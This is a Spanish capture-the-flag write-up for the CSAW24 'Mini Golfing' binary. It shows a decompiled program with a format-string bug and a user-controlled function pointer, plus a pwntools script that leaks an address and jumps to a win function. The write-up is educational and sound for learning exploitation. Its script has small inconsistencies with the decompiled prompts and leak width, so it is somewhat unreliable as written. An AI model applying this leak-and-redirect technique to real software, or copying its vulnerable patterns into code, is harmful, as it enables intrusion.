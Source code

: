 ```yaml
---
title: Mini Golfing
date: 2024-09-24
ctf: CSAW24
author: naibu3
---
```

#writeup 
# Reconocimiento

Nos dan un binario de 64 bits. Si analizamos con [[checksec]]:

```checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

Vemos que tenemos el [[NX bit]] activo, por lo que no podremos ejecutar código del stack. Además tenemos [[PIE]], por lo que las direcciones de memoria variarán con cada ejecución.

Analizando con [[gdb|gdb-peda]], vemos que existe una función *main* y una función *win*, a la que no se llama nunca.

Si tratamos de descompilar el binario:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char input[0x400];  // Buffer de 1024 bytes
    long func;          // Puntero a función

    // Limpia el buffer stdout
    setvbuf(stdout, NULL, _IONBF, 0);
    fflush(stdout);

    // Limpia el buffer stdin
    setvbuf(stdin, NULL, _IONBF, 0);
    fflush(stdin);

    // Inicializa los buffers con 0
    memset(&input, 0, sizeof(input));
    
    // Mensajes de salida
    puts("Input some data: ");
    printf("Give me input: ");

    // Lee la entrada del usuario
    fgets(input, sizeof(input), stdin);

    // Imprime el mensaje fijo
    printf("Your input: ");
    printf(input);  // ¡Posible vulnerabilidad de formato!

    // Pregunta por un valor de función
    printf("Enter function pointer: ");
    scanf("%lx", &func);  // Escanea una dirección de función

    printf("Calling function at: %lx\n", func);

    // Llama a la función en la dirección proporcionada
    ((void (*)())func)();  // Conversión a puntero de función y ejecución

    return 0;
}
```

Nos damos cuenta de que en la parte que nos pide un input y lo imprime tenemos una vulnerabilidad de tipo [[Format string]].

# Explotación

Con el format string que hemos encontrado podemos leakear una dirección de memoria del binario para calcular la dirección de *win*. Para ello debemos buscar alguna posición del stack en la que se almacene una dirección del binario.

Esto podemos hacerlo probando o con el propio GDB. En este caso, descubrimos que la dirección de *main* se encuentra en la dirección 171 del stack.

Ya podemos crear un script:

```python3
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'golf')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote("golfing.ctf.csaw.io", 9999)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

io.recvuntil(b'name?')
io.sendline(b'%171$x')

main_addr = io.recvline().decode('UTF-8').split(": ")[1]
log.success(main_addr)

main_addr = int(main_addr, 16)
log.info(main_addr)

win_addr = main_addr - 26
win_addr = hex(win_addr)

io.sendline(win_addr)

io.interactive()
```


